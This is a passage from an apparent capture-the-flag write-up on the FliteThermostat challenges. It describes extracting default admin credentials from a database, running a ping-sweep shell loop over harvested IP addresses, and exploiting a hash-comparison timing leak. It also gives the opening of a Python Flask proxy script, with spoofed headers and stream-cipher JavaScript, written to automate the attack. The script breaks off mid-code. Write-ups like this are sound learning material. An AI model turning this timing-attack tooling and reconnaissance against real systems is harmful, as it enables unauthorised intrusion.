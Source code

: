 after that i got couple of information from the databases have 2 tables that have schema other than `information_schema` which is `users and devices`, from users table i got an admin credentials with username: admin and password: password but it was not quite usefull and from another table `devices` i got list of an ipaddress i tried run a `ping sweep` using this command  :
```
for x in `cat ip_addr`; do ping -c 1 -W 1 $x | grep from; done
```
to the ipaddress list and found one `ipaddress` that accessible, which is http://104.196.12.98/ the next target that we should pwn.

### FliteThermostat Admin
after trying to understanding the application, i notice a difference when send a valid hash length (64) and send a less than 64 character and made me think there is an timing attack, i tried to fuzz the first byte of the hash and notice have one longer response (when the byte is correct)  so i made a python script to automate the exploitation proccess, i made an flask web application that act like an proxy to send the encrypted request to target server.

```
#!/usr/bin/env python2
from Crypto.Cipher import AES
from Crypto import Random
import os
import base64
import requests
import urllib
import json
import flask
# import mechanize

app = flask.Flask(__name__)

headers = {
"Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", 
"User-Agent": "Dalvik/2.1.0 (Linux; U; Android 8.1.0; Redmi 6A MIUI/V9.6.18.0.OCBMIFD)", 
"Connection": "close", 
"Accept-Encoding": "gzip, deflate"
}

@app.route('/flite', methods=['POST','GET'])
def flite():
    if flask.request.method == "GET":
        x = """
                <html>
            <head>
                <title>Test</title>
                <script type="text/javascript">
                function stream(key) {{
            this.b = [];
            for (var i = 0; i < 256; ++i) this.b[i] = i;
            var j = 0;
            for (var i = 0; i < 256; ++i) {{
                j = (j + this.b[i] + key.charCodeAt(i % key.length)) & 0xFF;
                var t = this.b[i];
                this.b[i] = this.b[j];
                this.b[j] = t;
            }}
            this.a = 0;
            this.c = 0;
        }}
        stream.prototype.next = function() {{
            this.a = (this.a + 1) & 0xFF;
            this.c = (this.c + this.b[this.a]) & 0xFF;
            var t = this.b[this.a];
            this.b[this.a] = this.b[this.c];
```